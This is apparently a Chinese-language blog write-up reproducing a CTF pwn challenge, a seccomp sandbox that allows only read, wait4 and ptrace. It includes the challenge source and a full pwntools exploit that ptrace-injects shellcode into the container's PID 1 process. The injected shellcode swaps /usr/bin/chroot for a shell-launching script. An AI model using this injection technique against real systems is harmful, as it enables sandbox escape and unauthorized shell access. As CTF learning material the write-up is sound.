

# 前言

前两天想研究一下`seccomptools原理`,然后就偶然看到了[这篇文章](https://bbs.kanxue.com/thread-283206.htm).
在看完完整思路后,我觉得这题还是很有意思的,出得比较新颖,于是我尝试本地复现一下,这就是这篇博客的记录(虽然没有完整附件,不过好在还是可以复现)
# 题目解析

## 源码分析
以下是大致源码.可以看到程序无条件执行了我们的shellcode,而且甚至有0x1000的长度可控执行
```c
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <seccomp.h>
#include <sys/mman.h>

void init()
{
    setbuf(stdout, 0LL);
    setbuf(stdin, 0LL);
    setbuf(stderr, 0LL);
}

void setup_seccomp()
{
    scmp_filter_ctx ctx;

    ctx = seccomp_init(0LL);
    seccomp_rule_add(ctx, 2147418112LL, 101LL, 0LL);
    seccomp_rule_add(ctx, 2147418112LL, 0LL, 0LL);
    seccomp_rule_add(ctx, 2147418112LL, 61LL, 0LL);
    seccomp_load(ctx);
    seccomp_release(ctx);
}

int main(int argc, const char **argv, const char **envp)
{
    void *buf;

    init();
    buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
    setup_seccomp();
    read(0, buf, 0x1000uLL);
    ((void (*)(void)) buf)();
    munmap(buf, 0x1000uLL);
    return 0;
}
```

## 沙箱分析
但是实际上这题的精髓在于沙箱的设计.可以看到,只有read,wait4合ptrace系统调用.
不过好在也提示了该题与ptrace有关.


## 利用思路介绍
> 由于我并没有渠道拿到该题沙箱,于是只能通过看文章的思路,并且最大可能的在本地贴近文章的复现

大部分的pwn题都通过docker部署, 而对于这题来说, docker的环境至关重要.
因为需要使用ptrace尝试attach到别的进程来实现沙箱的逃逸,需要别的进程UID保持稳定

该题的docker运行结果大致是下图这样, 其中稳定UID的有1, 15, 16进程, 也就是主要对这三个进程动刀(指通过ptrace attach)
```shell
# ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 04:10 ?        00:00:00 /bin/sh /start.sh
root          15       1  0 04:10 ?        00:00:00 sleep infinity
root          16       1  0 04:10 ?        00:00:00 /usr/sbin/xinetd -pidfile /run/xinetd.pid -stayalive -inetd_compat -
root          17       0  0 04:18 pts/0    00:00:00 bash
root          27      16  0 04:19 ?        00:00:00 ./power
root          28      17  0 04:19 pts/0    00:00:00 ps -ef
```

这题的预期解是利用start.sh进程,通常的start.sh部署如下,其实出过题的人应该还是很熟悉的.
由于
```shell
#!/bin/bash
echo $FLAG > /home/ctf/flag
chown root:ctf /home/ctf/flag 
chmod 740 /home/ctf/flag

/etc/init.d/xinetd start;
sleep infinity;
```

通过`/proc/<pid>/status`可以发现, 1, 15进程都处于内核的睡眠状态.
并且start.sh在等待15sleep进程的返回, 而15进程则是永久睡眠

那么我们就可以通过attach 1进程, 并且在其系统调用的返回地址写上我们的shellcode代码, 就可以获得无沙箱的shellcode执行(ptrace的attach可以无视子进程的代码段只可写的权限)


# 利用过程

## 大规模shellcode编写方法
至于exp, 编写时还有一些有意思的点.因为这次执行的shellcode规模较大, 而毕竟ptrace的调用并不常用, 如果手写shellcode, 那么会大大增加工作量

我首先尝试使用本地手写c代码, 然后编译时使用`-S`选项来让gcc帮我编译出汇编代码, 但是这样也有一些问题, 比如正常情况下ptrace属于c库函数, 所以必然会链接到c库执行.但是很明显远程不一定有ptrace给你使用, 就算有, 偏移等等也可能出现差错.

于是我又尝试了加上了`-static`静态编译, 但是静态编译后整个文件太大了, 还是需要手动调整, 效率依然比较低

最后我还是从本文开头的文章中的exp找到了解决办法(虽然我不是很喜欢这种解决办法)
```python
PTRACE_POKEDATA = 5

power_shellcode +=f"mov r12, {code[i]}"
power_shellcode +=shellcraft.ptrace(PTRACE_POKEDATA, target_pid, "r13", "r12")
power_shellcode +=f"add r13, 8"
```
即通过shellcraft构造, 并且我没想到的是参数居然还可以指定寄存器, 其实比我想象的还是好用
(需要手写的shellcode还可以简单的通过加的方式加上)

## exp
```python
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    log_level="debug",
)

final_shellcode  = shellcraft.open("file", 513)
final_shellcode += shellcraft.write(3, "#!/bin/sh\n/bin/sh\n", 18)
final_shellcode += shellcraft.close(3)
final_shellcode = asm(final_shellcode)
final_shellcode += b'\x90'*(8 - (len(final_shellcode) % 8))

code = []
print(hex(len(final_shellcode)))
for i in range(0, len(final_shellcode), 8):
    long = 0
    tmp = final_shellcode[i:i+8]
    for j in range(0, 8, 1):
        long |= tmp[j] << (8*j)
    code.append(long)
print(code)

target_pid = 38621

PTRACE_ATTACH = 16
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_POKEDATA = 5
PTRACE_CONT = 7
PTRACE_DETACH = 17
rip_offset = 128
rcx_offset = 88
regs_offset = 0x200

power_shellcode = shellcraft.ptrace(PTRACE_ATTACH, target_pid, 0, 0)
power_shellcode +=shellcraft.wait4(target_pid, 0, 0, 0)

power_shellcode +=f"""
sub rsp, {regs_offset}
mov r15, rsp
"""

power_shellcode +=shellcraft.ptrace(PTRACE_GETREGS, target_pid, 0, "r15")
power_shellcode +=f"""
lea r14, [r15+{rcx_offset}]
mov r13, [r14]
"""

for i in range(0, len(code), 1):
    power_shellcode +=f"mov r12, {code[i]}"
    power_shellcode +=shellcraft.ptrace(PTRACE_POKEDATA, target_pid, "r13", "r12")
    power_shellcode +=f"add r13, 8"

power_shellcode +=f"""
lea r11, [r15+{rip_offset}]
mov r14, [r14]
mov [r11], r14
"""
power_shellcode +=shellcraft.ptrace(PTRACE_SETREGS, target_pid, 0, "r15")
power_shellcode +=shellcraft.ptrace(PTRACE_CONT, target_pid, 0, 0)
power_shellcode +=shellcraft.ptrace(PTRACE_DETACH, target_pid, 0, 0)

io = process("./code")
gdb.attach(io)
power_shellcode = asm(power_shellcode)
io.send(power_shellcode)

io.interactive()
```
## 复现步骤

1. 在一个终端执行start.sh


2. 首先编译code(以提供给Pwn.py启动该程序)

3. 
    a.手动ps -A得到start.sh进程的PID, 将Pwn.py的target_pid改为此值. 运行`Pwn.py`, 其会先计算好注入`start.sh`的shellcode, 然后将其以8为单位转为数字(为了后文ptrace的POEKDATA服务, 因为POKEDATA就是8位单位向attach的进程写入数值)

    b. Pwn.py做的第二件事就是计算好attach到start.sh并向返回地址注入刚刚计算好的shellcode

4. 在Pwn.py运行后, 可以手动gdb attach上该start.sh进程, 检查shellcode写入情况(图中可以看到shellcode已经写入成功, 但是此时由于该进程仍在等待sleep进程结束, 所以不会从内核态返回到用户态执行你的shellcode)


5. 在本地复现时, 我偷懒没有写通过attach来kill掉sleep进程的shellcode, 于是我就通过命令行杀死

6. 在杀死进程后, 可以在gdb上观察, 发现start.sh进程已经可以成功从内核态返回, 并且执行你的shellcode代码


7. 在这题中, 只要把远程环境的/usr/bin/chroot换成
```
#!/bin/sh
/bin/sh
```
就可以使得远程靶机在通过xinetd启动chroot时获取shell

# 后记
这题的pwn还是很新颖的, 无论是考点, 还是实际的运用, 也是我为什么写了比较长的一篇博客来记录.希望以后的CTF能多些这样有意思的题目, 而不是通过各种恶心人的办法上难度

一般的pwn都是通过程序内部的内存破坏来实现获取shell, 但是这题却将整个docker容器都作为你的靶场, 趣味性十足

